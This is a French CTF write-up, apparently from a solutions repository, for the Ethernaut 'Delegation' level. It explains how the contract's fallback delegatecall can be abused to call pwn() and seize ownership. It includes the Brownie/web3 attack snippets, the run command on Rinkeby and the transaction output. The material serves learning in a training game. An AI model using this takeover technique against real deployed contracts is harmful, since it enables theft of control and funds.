 # Delegation

## Objectif
L'objectif de ce challenge est de devenir le owner du contrat.

## Devenir owner du contrat

A première lecture, il n'est pas possible de devenir owner du contrat en appellant seulement une méthode du contrat.

Nous pouvons voir que la méthode [`fallback`](./contracts/delegation.sol#27) effectue un [`delegatecall`](./contracts/delegation.sol#28) sur le contract `Delegate` qui contient la méthode [`pwn`](./contracts/delegation.sol#12)

Cette méthode `pwn` permet de modifier la variable `owner` par `msg.sender`

Lorsqu'un contrat A fait un appel à `delegatecall` sur le contrat B, **le code du contrat B** est exécuté avec **le contexte du contrat A**

Nous pouvons ainsi devenir owner du contrat `Delegation` en réussissant à appeller la méthode `pwn` du contrat `Delegate`

Pour pouvoir appeller la méthode `pwn` via le `delegatecall`, nous devons utiliser le *sélecteur* de la méthode `pwn`: il s'agit des 4 premiers octets du `hash` de la signature de la méthode:
```python
web3.keccak(text='pwn()')[0:4]
```

Une méthode pour faire cet appel est d'utiliser `transfer` avec la `payload` en tant que paramètre `data`:
```python
hacker.transfer(to=delegation.address, data=web3.keccak(text='pwn()')[0:4])
```

Une alternative est d'utiliser `Contract.from_abi`:
```python
target = Contract.from_abi("Delegate", delegation.address, Delegate.abi)
target.pwn({'from': hacker})
```

## Exécution du script d'attaque
Afin de pouvoir agir sur la chaine `rinkeby`, il est nécessaire de créer un fichier `.env` contenant la clé de projet [Infura](https://infura.io/) et la valeur de la clé privée du compte utilisé pour le challenge:
```shell
export WEB3_INFURA_PROJECT_ID='AABBCCDD.......'
export PRIVATE_KEY='0xDEADBEEFCACA...'
```

En utilisant la console sur le site d'[ethernaut openzeppelin](https://ethernaut.openzeppelin.com/level/0x9451961b7Aea1Df57bc20CC68D72f662241b5493) on récupère l'adresse du contrat déployé pour lancer l'attaque ainsi:
```bash
$ brownie run scripts/attack.py main "0xf59942b26B2F967EE34A148d99dC128192555129" --network rinkeby
```
```console
Brownie v1.18.1 - Python development framework for Ethereum

DelegationProject is the active project.

Running 'scripts/attack.py::main'...
Transaction sent: 0xa66ccb484dcee1249ca7d76a2f699342f25758cfa4cc17c22d3fea3a33d9c018
  Gas price: 1.000000017 gwei   Gas limit: 32843   Nonce: 229
  Transaction confirmed   Block: 10378179   Gas used: 31288 (95.27%)
```
